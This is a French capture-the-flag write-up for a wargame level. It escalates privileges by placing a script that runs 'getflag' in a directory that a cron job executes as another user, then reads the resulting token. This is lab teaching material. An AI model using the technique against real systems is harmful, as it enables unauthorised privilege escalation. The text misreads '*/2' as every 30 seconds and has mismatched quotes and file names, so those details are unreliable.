 Dès qu'on se connecte au level05, une notification apparaît :
<pre><code>You have new mail.</code></pre>

On fait un **cat** du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tâche **cron** dont le format est le suivant:
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> Donc toutes les 30 secondes la tâche: <code>su -c 'sh /usr/sbin/openarenaserver"</code> va s'exécuter

On **cat** le fichier <code>/usr/sbin/openarenaserve</code>, ce qui nous donne :
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do 
# Pour chaque fichier dans le dossier
		(ulimit -t 5; bash -x "$i")	 
		# Avec un interval de 5 sc, executer le fichier
		rm -f "$i"					 
		# Supprimer le fichier
done
```

L'idée est de créer un fichier que l'on va mettre dans le dossier <code>/opt/openarenaserver/</code> afin qu'il s'exéctue dès que la tâche **cron** s'active :
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> On stocke dans <code>/tmp/token</code> le resultat car **cron** s'effectue en background et n'affiche pas de message


Il nous suffit de faire des **ls** de <code>/opt/openarenaserver/</code> et d'attendre que le ficher <code>/tmp/getflag.sh</code> se fasse supprimer pour savoir quand la tâche a été effectuée, ainsi il ne nous reste plus qu'a récuperer le flag :
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>
